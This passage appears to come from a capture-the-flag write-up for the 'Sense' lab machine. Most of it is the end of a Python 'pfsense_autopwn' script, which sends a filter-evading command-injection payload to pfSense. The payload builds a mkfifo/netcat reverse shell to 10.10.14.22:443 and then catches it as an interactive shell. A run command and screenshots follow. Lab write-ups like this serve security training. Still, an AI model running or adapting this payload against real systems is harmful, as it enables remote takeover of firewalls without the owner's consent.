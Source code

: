 ```python
    p2.status("Injecting malicious command")

    r = s.get(rceUrl + '''ampersant=$(printf+\"\\46\");hyphen=$(printf+\"\\55\");rm+${OLDPWD}tmp${OLDPWD}f;mkfifo+${OLDPWD}tmp${OLDPWD}f;cat+${OLDPWD}tmp${OLDPWD}f|${OLDPWD}bin${OLDPWD}sh+${hyphen}i+2>${ampersant}1|nc+10.10.14.22+443+>${OLDPWD}tmp${OLDPWD}f''')
    #pdb.set_trace()

    p2.success("Command injected")

if __name__ == "__main__":

    try:
        threading.Thread(target=signInPfsense, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    p3 = log.progress("Interactive Reverse Shell")
    time.sleep(2)
    p3.status("Getting Shell")

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p3.failure("No connection obtained")
    else:
        p3.success("The connection was established")
        shell.interactive()
```

```bash
./bin/python3 pfsense_autopwn.py
```

<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/sense_writeup/Sense_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
